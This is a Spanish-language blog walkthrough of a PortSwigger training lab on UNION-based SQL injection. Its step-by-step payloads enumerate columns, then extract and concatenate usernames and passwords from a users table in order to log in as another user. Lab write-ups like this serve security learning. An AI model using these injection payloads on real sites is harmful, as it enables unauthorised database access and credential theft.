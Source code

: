 ```yaml
---
title: PortSwigger - SQL injection UNION attack, retrieving multiple values in a single column.
layout: post
post-image: /assets/images/gatohacker4.jpg 
description: La resolución del reto SQL injection UNION attack, retrieving multiple values in a single column. 
tags:
- portswigger
- sqli
- post
- writeups
---
```

# Solución
---

Primero hacemos click en **Gifts** o en cualquier filtro de búsqueda.

![](/assets/images/images-portswigger-sqli/lab6-1.png)

Veremos que se agrega una cadena que es vulnerable a SQL injection.

![](/assets/images/images-portswigger-sqli/lab6-2.png)

Empezamos enumerando la cantidad de columnas.

```sql
' UNION SELECT null -- -
```

![](/assets/images/images-portswigger-sqli/lab6-3.png)

Escribimos dos `null` y comprobamos que existen 2 columnas.

```sql
' UNION SELECT null,null -- -
```

![](/assets/images/images-portswigger-sqli/lab6-4.png)

Ahora verificamo si ambas columnas aceptan un string y nos damos cuenta que la primera columna no acepta un string.

```sql
' UNION SELECT 'a',null -- -
```

![](/assets/images/images-portswigger-sqli/lab6-5.png)

Probamos con el segundo null y comprobamos que sí acepta strings.

```sql
' UNION SELECT null,'a' -- -
```

![](/assets/images/images-portswigger-sqli/lab6-6.png)

Podemos enumerar uno a uno las columnas para obtener los nombres de usuario y contraseñas.

```sql
' UNION SELECT null,username from users -- -
```

![](/assets/images/images-portswigger-sqli/lab6-7.png)

```sql
' UNION SELECT null,password from users -- -
```

![](/assets/images/images-portswigger-sqli/lab6-8.png)

Pero la idea del laboratorio es practicar una forma de obtener las dol columnas en una sola query. Para eso podemos usar el símbolo `||` que sirve para unir dos columnas en  SQL.

```sql
' UNION SELECT null,password||username from users -- -
```

![](/assets/images/images-portswigger-sqli/lab6-9.png)

Podemos separar de mejor forma las dos columnas agregando un símbolo entre las dos columnas. Separaremos ambas columnas con: `||':'||`.

```sql
' UNION SELECT null,password||':'||username from users -- -
```

![](/assets/images/images-portswigger-sqli/lab6-10.png)

Con esta información vamos a **My account**.

![](/assets/images/images-portswigger-sqli/lab6-11.png)

Iniciamos sesión con las credenciales que obtuvimos anteriormente.

![](/assets/images/images-portswigger-sqli/lab6-12.png)

Y resolvemos el lab.

![](/assets/images/images-portswigger-sqli/lab6-13.png)


---

## [Anterior](/blog/SQL-injection-UNION-attack%2C-retrieving-data-from-other-tables)
## [Siguiente](/blog/SQL-injection-attack%2C-querying-the-database-type-and-version-on-Oracle)
